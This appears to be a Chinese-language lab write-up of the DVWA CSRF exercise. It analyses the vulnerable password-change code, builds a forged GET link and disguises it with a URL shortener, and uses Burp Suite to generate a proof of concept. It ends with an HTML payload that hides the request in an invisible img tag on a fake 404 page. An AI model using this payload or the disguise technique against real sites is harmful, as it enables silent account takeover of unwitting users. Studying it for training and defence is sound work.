 ### 代码分析

可以看到 代码接收密码参数会检查password_new,password_conf是否相同除此以外并没有其他条件的限制，没任何防CSRF机制，并使用$GET传递。

另外，有一个 `mysqli_real_escape_string()`  函数，可用于转义SQL语句使用的字符串

> 下列字符受影响：
> \x00
> \n
> \r
> \
> '
> "
> \x1a
> 如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。



### 漏洞例用

随便输个新密码并提交，可见URL变化：

![image-20220819164026114](./Lab3_CSRF.assets/image-20220819164026114.png)

构造链接：
http://localhost/DVWA-master/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#

转换成短链接：

http://topurl.cn/bvQ



**构造攻击页面**

真实CSRF攻击中，攻击者为了隐藏自己的攻击手段，可能构造一个假的页面，然后放在公网上，诱导受害者访问这个页面，如果受害者访问了这个页面，那么受害者就会在不知情的情况下完成了CSRF攻击。自己测试可以写一个本地页面，也可以利用burpsuit直接生成攻击页面代码

- 抓取更改密码的数据包，利用engagement tools生成CDRF PoC

  ![image-20220504162139602](./Lab3_CSRF.assets/image-20220504162139602.png)

  点击 Test in browser，将链接复制到浏览器中打开

  ![image-20220504162227653](./Lab3_CSRF.assets/image-20220504162227653.png)

  点击"Submit request"，即可更改密码：

  ![image-20220504162249740](./Lab3_CSRF.assets/image-20220504162249740.png)



当然，也可以利用\<img\>标签伪造页面，让用户在不知情下访问，从而达到更改密码的目的

> 前提：此处使用get请求才能触发src

```html
<img src="http://dvwa.com/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```
